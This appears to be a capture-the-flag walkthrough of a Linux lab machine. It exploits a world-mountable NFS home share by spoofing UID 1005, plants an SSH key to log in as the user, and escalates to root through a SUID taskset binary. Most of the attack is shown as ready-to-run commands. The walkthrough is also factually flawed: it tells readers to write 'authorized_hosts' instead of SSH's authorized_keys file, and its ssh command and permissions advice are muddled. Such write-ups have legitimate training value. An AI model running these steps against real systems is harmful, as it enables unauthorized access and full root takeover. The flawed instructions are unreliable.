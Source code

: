 > ssh,nfs

# Ports

* **111** : rpcbind running with nfs_acl, nlockmgr, mountd services.
* **22** : SSH
### Port 111, 22 are used for exploiting

# 111
1. nfs_acl at 2049, mountd at 37101,37387,50391 and nlockmgr at 41921
2. rpcbind port can be used to access the nfs_acl runnig at 2049
3. `showmount -e 10.10.10.10` gives `/home/peter` so we have access to the home folder of the peter user.
4. Running nmap scripts for nfs against 111 gives additional info regarding the fileshare.
`nmap -sC --scripts="nfs-ls,nfs-showmount,nfs-stat" -p 111 10.10.10.10` 


![nfslin.png](./assets/nfslin.png)

5. mounting the share using `mount -t nfs 10.10.10.10:/home/peter /mnt/linNFS`

# EXPLOITATION

As we have access to home directory of peter and their is also an ssh server running, we can create the 'authorized_hosts' file of the ssh and add our own public key to it.
But since only the user with uid 1005 is allowed write operations in the folder, we need to add a user to our system with a uid 1005.
`useradd --uid 1005 linuser` to create the new user with uid 1005. Then switch to linuser with `su linuser`

The other directories in the folder are either empty or doesn't have interesting info.

So we create the folder .ssh inside peter's home directory and create a file named `authorized_hosts`. This file holds public keys of authorized hosts.

If you already have an ssh public-private key pair, copy the content of public key file from `~/.ssh/id_rsa.pub` and append it to the `authorized_hosts` file we created inside peter's home folder.
To generate public-private key pair `ssh-keygen`, You can find your keys inside your home folder's .ssh directory.
Make sure the permissions to .ssh folder and the authorized_keys file are either 700, 755.

ssh into the remote machine by `ssh -i .ssh/id_rsa 10.10.10.10` by using our private key.

# Actions in the low privilege shell
1. `find / -perm -u=s -type f 2>/dev/null` , to find SUID enabled binaries.
2. We find `taskset` have SUID enabled.
3. So we get root by `taskset 1 /bin/sh -p`   [Read](https://gtfobins.github.io/gtfobins/taskset/)

We are root
